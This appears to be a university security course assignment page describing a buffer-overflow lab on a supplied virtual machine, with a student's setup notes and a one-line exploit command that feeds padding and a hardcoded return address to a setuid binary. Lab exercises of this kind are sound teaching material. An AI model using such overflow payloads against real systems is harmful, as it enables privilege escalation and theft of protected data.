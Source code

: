 Mini-project 6
============

**Due: Nov. 20, 2020 by 11:59 PM US Central Time**.

You are asked to exploit a buffer overflow vulnerability to steal some information.

# Instructions:
* Install a virtual machine manager like VirtualBox
* Import the CS4352_MP6.ova file into your VirtualBox
* Start CS4352_MP6
* Log into the system
  * Username: abc
  * Password: edf
  * Of course, you may use “ssh -p 8822 abc@127.0.0.1”
* Find out what the contents of the file **note** are

# Evaluation:
- **50 points**: If you can pull it off, briefly describe what you did in a pdf file.

# Hints: 
* Note that the executable a.out is compiled out of the source.c under the same directory. 
* a.out is a setuid program.
* Well, I will stop here since I don’t want to deprive the fun of hacking by giving you guys too many hints. Good luck! 

## Personal Notes
I'm on an Arch Linux system, and using a Linux-lts kernel. I had to install lts-headers, and the virtualbox-host-dkms package due to my kernel.
I was getting issues in starting up, so had to go to intel bios settings and enable intel virtualization. Which made it work.

./a.out `perl -e 'print "A"x12'``printf "\xed\xfe\xff\xbf"`

